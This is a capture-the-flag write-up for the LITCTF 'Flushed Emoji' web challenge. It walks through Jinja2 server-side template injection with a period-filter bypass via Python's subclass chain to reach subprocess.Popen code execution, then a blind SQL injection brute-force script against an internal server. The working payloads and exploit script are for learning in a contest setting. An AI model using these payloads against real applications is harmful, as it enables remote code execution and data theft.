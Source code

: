 # Flushed Emoji
![](https://img.shields.io/badge/category-web-blue)
![](https://img.shields.io/badge/solves-49-orange)

## Description
Flushed emojis are so cool! Learn more about them [here](http://litctf.live:31781/)!

[FlushedEmojis.zip](https://drive.google.com/uc?export=download&id=1agW3a0-T4VsSJwJVTZ-dWSRLE_byxJya)

## Solution
In web challenges with source code, I usually like to check out the website first to see what it does. The home page has a button to launch the popup, containing a login form. Upon entering some dud credentials, it simply says `ok thank you for your info i have now sold your password (b) for 2 donuts :)`.

Weird, the password is returned back to us. That's definitely worth taking a look at, since websites don't normally do that.

That's all the website offered, so it was time to peek at the source code. Taking a look at `main-server/main.py`, it looks like it:
1. Blocks any requests with a `.` in the password.
2. Send a POST request to the other server with our username and password, but with non-alphanumeric characters stripped.
3. Returns a success message if the server returns "True"
4. Returns the fail message with our password in it otherwise (presumably "False")

The key is noticing that it returns `render_template_string` with our original password directly substituted in, meaning we can perform a SSTI attack.

To test this, we can try using `{{config}}` as the password, which would print the web app's configuration settings if it is vulnerable. Success!

![](https://user-images.githubusercontent.com/62577178/182054055-b7c532a4-e0a6-4fe7-9b18-4faa58649be2.png)

Looks like the config doesn't contain useful information, so it's more likely that we'll have to abuse the SSTI to gain remote code execution. Time to look at the other server.

In the data-server, there is a `/runquery` endpoint, which gets the JSON POST data, and executes unfiltered SQL on the username and password. This is not exploitable with a typical SQLi attack, since any quotes we insert into the username and password will get filtered. However, these rules don't apply to our remote code execution. This endpoint returns "True" if there is a matching record, and "False" otherwise. This means we'll need our exploit code to make the request to that endpoint, perform boolean SQL injection, and check the results. First though, we'll need to get remote code execution.

Since periods are banned, we can abuse some Python properties to access methods and attributes without using periods. Specifically:
- for some objects, `object["attribute_name"]` and `object["method_name"]()` work
- for other objects where that doesn't work, `getattr(object, "attribute_name")` and `getattr(object, "method_name")()` work

Additionally, we can use any loaded class, because Python provides `__mro__` to access a class's subclass, and `__subclasses__()` to access any subclasses of the current class. This means that by going up the `__mro__` chain, we will arrive at the `Object` class, which is the superclass of every other class.
```
$ curl -X POST -F username=a -F password='{{self["__mro__"]}}' http://litctf.live:31781/
ok thank you for your info i have now sold your password () for 2 donuts :)
$ curl -X POST -F username=a -F password='{{self["__class__"]["__mro__"]}}' http://litctf.live:31781/
ok thank you for your info i have now sold your password ((&lt;class &#39;jinja2.runtime.TemplateReference&#39;&gt;, &lt;class &#39;object&#39;&gt;)) for 2 donuts :)
$ curl -X POST -F username=a -F password='{{self["__class__"]["__mro__"][1]}}' http://litctf.live:31781/
ok thank you for your info i have now sold your password (&lt;class &#39;object&#39;&gt;) for 2 donuts :)
$ curl -X POST -F username=a -F password='{{self["__class__"]["__mro__"][1]["__subclasses__"]()}}' http://litctf.live:31781/
ok thank you for your info i have now sold your password ([&lt;class &#39;type&#39;&gt;, &lt;class &#39;weakref&#39;&gt;, &lt;class &#39;weakca...
```

In most related SSTI challenges, `subprocess.Popen` is what we're looking for. This is because it grants us remote code execution through `subprocess.Popen("command", stdout=-1, shell=True)["communicate"]()`. Through some trial and error, I determined that it existed at either index 247 or 250 (it changes between workers for some reason).

Thus, our exploit would be
```
username: anything
password: {{ self["__class__"]["__mro__"][1]["__subclasses__"]()[247 or 250]("command", stdout=-1, shell=True)["communicate"]() }}
```

Before we can perform the SQLi, it is necessary to find the IP of the data-server (it's redacted in the source code) as well as what tools are available at our disposal.

With `ls -l`:
```
ok thank you for your info i have now sold your password ((b&#39;total 20\n-rw-rw-r-- 1 root root 1212 Jul 20 19:38 main.py\n-rw-r--r-- 1 root root   24 Jul 20 02:13 requirements.txt\n-rwxrwxr-x 1 root root  351 Jul 20 19:38 run.sh\ndrwxrwxr-x 2 root root 4096 Jul 20 02:09 static\ndrwxrwxr-x 2 root root 4096 Jul 20 02:26 templates\n&#39;, None)) for 2 donuts :)
```
Looks like `main.py` is in our current directory. For the challenge to actually work, it must conatin the uncensored IP.

With `cat main.py`:
```
lmao no way you have . in your password LOL
```
Oops, I forgot about the filter. Instead, we can `cat *`
```
... [some data omitted] ...
requests.post(\&#39;http://172.24.0.8:8080/runquery\&#39;
... [some data omitted] ...
```
Great, the remote server is at `http://172.24.0.8:8080/runquery`. Now, what tools are available?
```
which curl:
ok thank you for your info i have now sold your password ((b&#39;&#39;, None)) for 2 donuts :)

which wget:
ok thank you for your info i have now sold your password ((b&#39;&#39;, None)) for 2 donuts :)

which python3:
ok thank you for your info i have now sold your password ((b&#39;/usr/bin/python3\n&#39;, None)) for 2 donuts :)
```

Looks like we'll have to use Python to do our bidding. Before trying to get the full exploit, let's first write the Python command that will successfully perform SQLi against this data server locally. I used:
```py
import requests
print(requests.post('http://172.24.0.8:8080/runquery',
                    json={'username': "flag' and substr(password, 1, 1)='L'--", 'password': ''}).text)
```
This did have the intended effect, so now I had to get rid of the periods.
1. To get rid of the `requests.post` period, I simply changed `import requests` to `from requests import post` and called `post(url, data)` instead
2. To get rid of the periods in the url, I replaced them with `chr(46)`, becoming `'http://172'+chr(46)+'24'+chr(46)+'0'+chr(46)+'8:8080/runquery'`
3. To get rid of the `.text`, I tried replacing it with `['text']`, which didn't work, so instead, the entire post request had to be wrapped as `getattr(post(url, data), 'text')`

This results in:
```py
from requests import post
print(getattr(post('http://172'+chr(46)+'24'+chr(46)+'0'+chr(46)+'8:8080/runquery',
                    json={'username': "flag' and substr(password, 1, 1)='L'--", 'password': ''}), 'text'))
```

And in command form:
```python
python3 -c "from requests import post;print(getattr(post('http://172'+chr(46)+'24'+chr(46)+'0'+chr(46)+'8:8080/runquery', json={'username': \"flag' and substr(password, 1, 1)='L'--\", 'password': ''}), 'text'))"
```

Now, this needs to be executed in the context of the SSTI RCE, in which we run `subprocess.Popen("command", ...)`, so the command needs to be escaped again.

```python
subprocess.Popen("python3 -c \"from requests import post;print(getattr(post('http://172'+chr(46)+'24'+chr(46)+'0'+chr(46)+'8:8080/runquery', json={'username': \\\"flag' and substr(password, 1, 1)='L'--\\\", 'password': ''}), 'text'))\"", stdout=-1, shell=True)['communicate']()
```

And finally, this can be wrapped in the double braces and MRO/subclass hacking.

![image](https://user-images.githubusercontent.com/62577178/182056485-d6cba7fd-8760-489a-be3d-a2c87e21273e.png)

When bruteforcing, `POPEN_NUM` is to be replaced with 247 or 250, depending on which one is working, `IDX_J` is to be replaced with the index of the character we're guessing, and `LTR` is to be replaced with the character we're guessing.

```py
import requests

url = 'http://litctf.live:31781/'
flag = 'LITCTF{'
j = len(flag)+1

payload = '{{self[\'__class__\'][\'__mro__\'][1][\'__subclasses__\']()[POPEN_NUM]("python3 -c \\"from requests import post;print(getattr(post(\'http://172\'+chr(46)+\'24\'+chr(46)+\'0\'+chr(46)+\'8:8080/runquery\', json={\'username\': \\\\\\"flag\' AND substr(password, IDX_J, 1)=\'LTR\'--\\\\\\", \'password\': \'\'}), \'text\'))\\"", stdout=-1, shell=True)[\'communicate\']()}}'
"""
{{self['__class__']['__mro__'][1]['__subclasses__']()[247]("python3 -c \"from requests import post;print(getattr(post('http://172'+chr(46)+'24'+chr(46)+'0'+chr(46)+'8:8080/runquery', json={'username': \\\"flag' AND substr(password, 1, 1)='P'--\\\", 'password': ''}), 'text'))\"", stdout=-1, shell=True)['communicate']()}}
"""


while True:
 for i in range(ord(' '), 128):
  print(flag + chr(i))
  pay = payload.replace("IDX_J", str(j)).replace("LTR", chr(i)).replace("POPEN_NUM", "247");
  res = requests.post(url, data={'username': 'a', 'password': pay})
  if 'Internal Server Error' in res.text:
    print('index 247 broken, trying 250')
    pay = payload.replace("IDX_J", str(j)).replace("LTR", chr(i)).replace("POPEN_NUM", "250");
    res = requests.post(url, data={'username': 'a', 'password': pay})
  if 'True' in res.text:
    flag += chr(i)
    j += 1
```

This leaked the flag up until `LITCTF{flush3d_3m0ji_o`. For some reason, the next character just wasn't leaking, so I replaced it with a `?` and kept going.

`LITCTF{flush3d_3m0ji_o?0}`

At this point, I was utterly confused, until I remembered that any of my guesses with a period were being filtered, so the missing character was likely a period.

Flag: `LITCTF{flush3d_3m0ji_o.0}`

## Afterthoughts
After the CTF was over, I realized two things I could have done to make my life much easier.
1. Instead of directly substituting the guess character in and being susceptible to the filter, I should have used sqlite's hex filter to check the ascii code instead.
2. There was no need to go to such great lengths to avoid periods; all I had to do was replace them with `\x2E` as it would pass by the filter undetected, but get translated into a period when running code.
